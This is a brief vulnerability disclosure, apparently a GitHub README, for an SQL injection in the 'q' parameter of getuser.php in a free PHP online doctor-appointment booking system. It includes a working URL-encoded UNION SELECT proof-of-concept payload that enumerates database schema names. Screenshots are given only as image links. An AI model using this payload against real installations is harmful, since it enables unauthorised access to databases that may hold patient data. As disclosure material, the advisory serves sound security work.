 # Online Doctor Appointment Booking System PHP and Mysql 1.0   
* Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-doctor-appointment-booking-system-php-and-mysql/  
* Software Link: https://projectworlds.in/wp-content/uploads/2020/05/PHP-Doctor-Appointment-System.zip  
* Version: 1.0  
* vulnerability: An SQL injection vulnerability was discovered in PHP-Doctor-Appointment-System.  
* vulnerability file: In getuser.php file   
* parameter: GET parameter 'q' is vulnerable.    
* Vulnerable code:   
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/006.png)
* POC  
payload:  http://localhost/[PATH]/getuser.php?q=1%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%2C0x7176627871%29%2CNULL%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.SCHEMATA%23  
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/002.png)  
* sql commands:  
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/004.png)  
